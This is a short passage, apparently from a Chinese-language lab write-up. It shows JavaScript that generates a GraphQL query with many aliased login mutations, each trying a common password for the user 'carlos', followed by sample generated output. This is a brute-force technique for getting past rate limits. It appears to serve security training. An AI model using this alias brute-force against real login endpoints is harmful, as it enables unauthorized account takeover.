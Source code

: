 ```plain
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

[![](assets/1708485015-89d78bc8e4cc24c089a11c200cc2469b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220153013-e2e4a9ee-cfc1-1.png)  
在浏览器一侧进行一个简单的构造：

```plain
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }


bruteforce4:login(input:{password: "123456789", username: "carlos"}) {
        token
        success
    }


bruteforce5:login(input:{password: "12345", username: "carlos"}) {
        token
        success
    }
```
